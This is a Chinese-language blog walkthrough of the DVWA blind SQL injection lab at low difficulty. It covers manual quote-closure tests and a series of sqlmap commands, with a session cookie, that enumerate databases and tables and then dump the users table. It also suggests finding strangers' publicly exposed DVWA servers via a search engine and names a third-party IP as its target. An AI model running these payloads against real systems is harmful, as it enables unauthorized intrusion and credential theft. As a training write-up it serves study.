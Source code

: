 # 【渗透整理】DVWA SQL Injection (Blind) —等级：low

DVWA可以自己搭建在本地主机进行学习测试（burp  suite本地抓包的时候需要把127.0.0.1的默认不截取取消，否则自己抓不到自己，踩坑铭记），如果不想麻烦的话可以直接网上搜索人家搭建好的DVWA平台来使用，省时省力，还能看见很多的“道友”遗留的痕迹。

## 1、寻找测试主机：

网站 fafo.so 打开搜索DVWA即可，可以看到很多200OK的主机都可以访问，复制他们的ip直接浏览器打开即可，DVWA的默认用户密码admin，password
 【图 挑一台测试主机】
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20191224105358634.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)

## 2、登录DVWA，调整等级low，进入 SQL Injection (Blind)，开始游戏

- 测试注入点 （我们已经知道是盲注，体验一下流程就行了）
- 测试闭合方式（虽然sqlmap可以直接完成，但我还是说一下吧，这是难点）
   1、1 and 1=1 #  回显：User ID exists in the database.【第一个“1”是ID用，“1=1”是用来判断的，#是注释符（–+也行）】
   2、1 and 1=2 # 回显：User ID exists in the database.【1=2是永假条件，永假条件和1、的永真条件1=1的回显一样，说明纯数字 1 的闭合方式错误】
   3、1’ and 1=1 # 回显：User ID exists in the database.
   4、1’ and 1=2 #  回显：User ID is MISSING from the database.【相同的闭合方式1’，永真条件1=1显示exists，永假条件显示MISSING，说明 1’ 的闭合方式正确，下面开始使用这个闭合方式注入】
   sql盲注比较头疼的就是你得一个一个的猜测数据库中所有信息名称的字母，26个字母再分大小写52个ASCII码值猜完才知道一个字母，手工操作繁琐至极，所以这里我采用sqlmap替代手工[(手工原理戳这里)](https://www.jianshu.com/p/757626cec742)
- 下面是sqlmap的盲注过程

```
1、运行sqlmap，常规尝试：失败
D:\sqlmap2>python2 sqlmap.py -u "http://106.75.79.26/vulnerabilities/sqli_blind/?id=3 
12
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191224112244301.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)
 sqlmap 回显302拒绝，猜测可能需要cookie，于是指定参数cookie再试
 == 我原本讲就装了Cookie Editor插件，可以直接获取cookie值，附在参数位置就可以，没有的话可以抓个包cookie就有了==

```
2、运行sqlmap，参数cookie：成功
D:\sqlmap2>python2 sqlmap.py -u "http://106.75.79.26/vulnerabilities/sqli_blind/?id=3&Submit=Submit" --cookie="PHPSESSID=a5vf78oqfkn2t3ektqh7rh0dm7; security=low"
12
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191224112337621.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20191224112601901.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)
 然后就是走流程了

```
3、爆库
D:\sqlmap2>python2 sqlmap.py -u "http://106.75.79.26/vulnerabilities/sqli_blind/?id=3&Submit=Submit" --cookie="PHPSESSID=a5vf78oqfkn2t3ektqh7rh0dm7; security=low" --dbs
12
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191224112531159.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)![在这里插入图片描述](https://img-blog.csdnimg.cn/20191224112733757.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)

```
4、爆表
D:\sqlmap2>python2 sqlmap.py -u "http://106.75.79.26/vulnerabilities/sqli_blind/?id=3&Submit=Submit" --cookie="PHPSESSID=a5vf78oqfkn2t3ektqh7rh0dm7; security=low" --tables -D dvwa
12
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/2019122411282924.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)![在这里插入图片描述](https://img-blog.csdnimg.cn/20191224112844356.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)

```
5、爆字段
D:\sqlmap2>python2 sqlmap.py -u "http://106.75.79.26/vulnerabilities/sqli_blind/?id=3&Submit=Submit" --cookie="PHPSESSID=a5vf78oqfkn2t3ektqh7rh0dm7; security=low" --columns -T users
12
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191224113009514.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)![在这里插入图片描述](https://img-blog.csdnimg.cn/20191224113021523.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)

```
6、爆表的内容
D:\sqlmap2>python2 sqlmap.py -u "http://106.75.79.26/vulnerabilities/sqli_blind/?id=3&Submit=Submit" --cookie="PHPSESSID=a5vf78oqfkn2t3ektqh7rh0dm7; security=low" -T users --dump
12
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191224113204200.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)![在这里插入图片描述](https://img-blog.csdnimg.cn/20191224113215527.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)![在这里插入图片描述](https://img-blog.csdnimg.cn/20191224113229689.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)内容全出，游戏结束

## 3、总结

sqlmap的功能强大，使用技巧后期需要自己复习或者恶补，初级的难度很菜，以前做了没有时间整理，现在码在这记录一下。 平安夜有人陪，有苹果吃就很开心。